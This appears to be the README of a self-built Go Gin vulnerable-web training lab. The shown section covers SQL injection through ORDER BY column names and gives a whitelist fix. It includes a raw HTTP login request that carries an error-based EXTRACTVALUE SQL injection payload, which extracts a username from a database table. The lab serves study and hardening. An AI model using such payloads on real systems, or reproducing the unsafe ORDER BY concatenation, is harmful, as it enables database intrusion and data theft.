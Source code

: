 # Go Gin vul Example 

An example of gin contains many useful vul

一个go写的WEB漏洞靶场，实际自己写一下，加固一下知识
GIN框架 整个web框架是go-gin-Example 上面改的





#0x01 sqlli

实际中最常见的一种编码问题 Order by 之后存在列和表的的时候，一般采用拼接的情况出现sql注入

由于表/列名无法使用参数化查询，所以推荐使用白名单或转义操作
````
db.Order(xxxx).First(&user)
````
// 对于列名的修复，稳妥的是白名单
````
validCols := map[string]bool{"col1": true, "col2":true}

if _, ok := validCols[xxxx]; !ok {
fmt.Println("illegal column")
return
}
db.Order(xxxx)
````


````
POST /sql/login HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/x-www-form-urlencoded
Content-Length: 106

user=user&password=123456 AND EXTRACTVALUE(9509,CONCAT(0x5c,(SELECT user from blog.blog_login LIMIT 0,1)))
```
